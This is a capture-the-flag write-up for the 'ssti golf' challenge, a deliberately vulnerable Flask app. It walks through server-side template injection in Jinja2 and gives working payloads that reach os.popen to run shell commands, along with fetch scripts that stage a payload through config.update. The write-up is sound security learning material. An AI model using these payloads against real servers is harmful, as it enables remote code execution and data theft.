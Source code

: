 # ssti golf

Click first link. Challenge is down (°ー°〃).

Click next link and see contents of Python file:

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 49:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Very confused. Google 'ssti'; means 'Server-Side Template Injection'.
Still confused. Do some reading:

- [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploit)
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)
- [https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
- [https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Figure out that this is Python Flask app, and that Flask uses a template framework called 'Jinja2'. Do some more reading:
- [https://jinja.palletsprojects.com/en/3.0.x/templates/#expressions](https://jinja.palletsprojects.com/en/3.0.x/templates/#expressions)
- [https://jinja.palletsprojects.com/en/3.0.x/templates/#list-of-builtin-filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#list-of-builtin-filters)

Try adding some template code to 'query' parameter in url:

![SSTI Golf Query Test](./sstigolf-test-query.png)

Woah, the server evaluated the query and returned the result. 
Ok, SSTI makes sense now: Exploit a server by taking advatage of how it renders template data. In this case we inject the exploit code (i.e. payload), in the url request.

But what does 'golf' mean? Some more Googling reveals 'code golfs', which are competitions to write the shortest code to achieve some goal. So this challenge requires writing the shortest template injection. Or at least shorter than 49 characters.

Still confused how to do that. Play around with different injections. Check Jinja docs, blogs, and ssti tutorials. People suggest updating config variable. Check `{{config}}`:

![SSTI Golf Config](./sstigolf-config.png)

Hm. Looks like other people have already updated config variable.

Other blogs suggest hacking Python object tree to import module. Watch helpful youtube video (['Server-Side Template Injections Explained' by PwnFunction](https://www.youtube.com/watch?v=SN6EVIG4c-0)). They suggest accessing Python `os` module through `url_for` global object:

![SSTI Golf OS Acess](./sstigolf-os-access.png)

Challenge description said flag is in an arbitrary file in same directory as app, so use `os` to list files:

![SSTI Golf File System](./sstigolf-file-system.png)

Ok, but how to read `an_arbitrarily_named_file`?

Maybe can use `os.popen` to run bash command `cat`. So, payload would be:

```js
// 71 characters
const payload = `{{lipsum.__globals__.os.popen('cat an_arbitrarily_named_file').read()}}`
```

Too long （＞人＜；）.

Oh! Use same strategy as others. 

1) Tuck some slice of payload in the `config` global variable in one request. Do this by including another url parameter in addition to `query`. For example, send `p` parameter with value of partial payload.

```js
// sstigolf.ts
// STEP 1: Update config variable with partial payload

// partialPayload
const bindPayloadToConfig = async () => {
    const partialPayload = `cat an_arbitrarily_named_file`;
    // 'p' for 'payload'
    const payloadKey = 'p';
    // query tells server to get value from url parameter 'p' and store it in Flask config variable
    const query = `{{config.update(${payloadKey}=request.args.get('${payloadKey}'))}}`;
    // Make GET request with two url parameters, 'p' and 'query'
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?${payloadKey}=${partialPayload}&query=${query}`);
    const response = await fetch(targetURL);
    // If all went well, we should not get a server error
    const responseText = await response.text();
    console.log({responseText});
}

bindPayloadToConfig();
```

Response seems okay, no errors:
```js
None
```

Now access partial payload using `{{config.p}}` in subsequent template injection. This will bypass the 48 character query limit.

2) Make server construct full payload in second request 

```js
// sstigolf.ts
// STEP 2: Reconstruct full payload and get flag

const runPayload = async (payloadKey: string) => {
    // query that constructs and executes full payload
    const query = `{{lipsum.__globals__.os.popen(config.${payloadKey}).read()}}`;
    // Make GET request, this time with just `query` url parameter
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?query=${query}`);
    const flag = await fetch(targetURL);
    // If all went well, we should get flag!
    const flagText = await flag.text();
    console.log({flagText});
}
// Wait a few seconds for server to update with partial payload
setTimeout(() => runPayload(payloadKey), 3000);
```

Breakdown of `query`:

```js
// Jinja template tags. This tricks server into evaluating content between brackets 
{{}}
// `lipsum` is global variable available in Flask applications. Use it to navigate to Python os module
{{lipsum.__globals__.os}
// Use os.popen to run terminal commands.
{{lipsum.__globals__.os.popen()}}
// Run command `cat an_arbitrarily_named_file` that we previously attached to `config` dictionary under the key 'p'
{{lipsum.__globals__.os.popen(config.p)}}
// Normally os.popen outputs to standard out, but we want the server to insert the output of `cat an_arbitrarily_named_file`, i.e. the flag, into the response that we get in our browser. We do this with the `.read()` method 
{{lipsum.__globals__.os.popen(config.p).read()}}
```

Et voilà, the flag!

```js
{ flagText: "ictf{F!1+3r5s!?}" }
```


## Reflection

This one took me 2 days, and I was so confused for 90% of that time. 
That too, this was one first challenges I attempted （＞人＜；）.
I tried so many different things before settling on the solution I presented in the writeup.
But, when I finally got it I was pretty stoked.

Also, I, and may others, were made aware that that this was not the intended solution. After all, we completely bypassed the 'golf' aspect of the challenge with our `config`-updating shenanigans. Based on messages in the Discord server, the challenge writers expected people to use a `query` like this:

```js
{{cycler.next.__globals__.os.popen('nl *')|max}}
```

(Which I don't think I would ever have figured out in time).

Also, also, I just realized a better solution while writing this. I forgot that the cat command can read a whole directory of files using the `*` argument, so really all the config updating stuff in my writeup is completely unnecessary 😅

```js
// 47 character solution
{{lipsum.__globals__.os.popen('cat *').read()}}
```

![SSTI Golf Better Solution Afterthought](./sstigolf-better-solution-afterthought.png)

Taking inspiration from the intended solution, here is an even shorter solution:

```js
// 46 character solution
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![SSTI Golf Better Solution Afterthought](./sstigolf-better-shorter-solution-afterthought.png)
